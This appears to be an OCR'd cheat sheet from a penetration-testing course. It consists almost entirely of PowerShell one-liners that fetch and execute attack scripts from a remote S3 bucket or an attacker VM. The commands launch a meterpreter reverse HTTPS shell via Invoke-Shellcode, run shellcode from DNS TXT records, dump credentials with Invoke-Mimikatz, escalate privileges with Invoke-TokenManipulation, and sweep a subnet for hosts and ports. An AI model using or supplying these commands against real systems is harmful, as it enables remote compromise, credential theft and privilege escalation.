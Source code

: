 

powershell -command "IEX (New-Object Net.WebClient).DownloadString('https://s3.amazonaws.com/StrategicSec-Files/Powersploit/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost Strategic-Sec-Ubuntu-VM-IP -Lport 443 -Force"





********************************** Payload which could execute shellcode from DNS TXT queries. **********************************
powershell.exe (new-object System.Net.WebClient).DownloadFile('http://Strategic-Sec-Ubuntu-VM-IP/nishang/Execution/Execute-DNSTXT-Code.ps1','%TEMP%\Execute-DNSTXT-Code.ps1')
powershell.exe -ExecutionPolicy Bypass -command %TEMP%\Execute-DNSTXT-Code.ps1 32.alteredsecurity.com 64.alteredsecurity.com ns8.zoneedit.com






powershell -command "IEX (New-Object Net.WebClient).DownloadString('http://Strategic-Sec-Ubuntu-VM-IP/powersploit/Exfiltration/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz" 









********************************** Run mimikatz via powershell  (must be run as SYSTEM) **********************************
powershell -command "IEX (New-Object Net.WebClient).DownloadString('https://s3.amazonaws.com/StrategicSec-Files/Powersploit/Invoke-Mimikatz.ps1') | Out-File -Encoding ASCII Invoke-Mimikatz.ps1; Import-Module .\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz"





********************************** Token Manipulation to escalate (must be run as an Administrator) **********************************
powershell -command "IEX (New-Object Net.WebClient).DownloadString('http://Strategic-Sec-Ubuntu-VM-IP/powersploit/Exfiltration/Invoke-TokenManipulation.ps1') ; Invoke-TokenManipulation" 

powershell -command "IEX (New-Object Net.WebClient).DownloadString('https://s3.amazonaws.com/StrategicSec-Files/Powersploit/Invoke-TokenManipulation.ps1') | Out-File -Encoding ASCII Invoke-TokenManipulation.ps1; Import-Module .\Invoke-TokenManipulation.ps1 ; Invoke-TokenManipulation"








********************************** Nihsang payload which Scan IP-Addresses, Ports and HostNames **********************************
powershell.exe (new-object System.Net.WebClient).DownloadFile('http://Strategic-Sec-Ubuntu-VM-IP/nishang/Invoke-PingSweep.ps1','%TEMP%\Invoke-PingSweep.ps1')
powershell.exe -ExecutionPolicy Bypass -command %TEMP%\Invoke-PingSweep.ps1 -StartAddress 192.168.6.50 -EndAddress 192.168.6.100 -ResolveHost -ScanPort



